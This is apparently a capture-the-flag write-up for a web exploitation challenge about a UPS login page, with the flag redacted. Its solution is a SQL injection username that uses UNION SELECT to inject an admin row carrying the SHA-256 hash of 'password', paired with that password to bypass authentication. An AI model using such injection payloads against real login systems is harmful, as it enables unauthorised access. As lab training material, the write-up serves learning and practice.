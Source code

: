 ```yaml
---
title: "Uninterrupted Problem Supply"
category: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 30
solves: -1
flag: THM{REDACTED}
---
```

> Virelia simply loves buying devices from Mechacore. Their most recent acquisition is a UPS unit. Mechacore promised the login page was 100% secure. Let's see if it can keep us out.

---

Username: ' UNION SELECT 1, 'admin', '5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8' -- 
Password: password
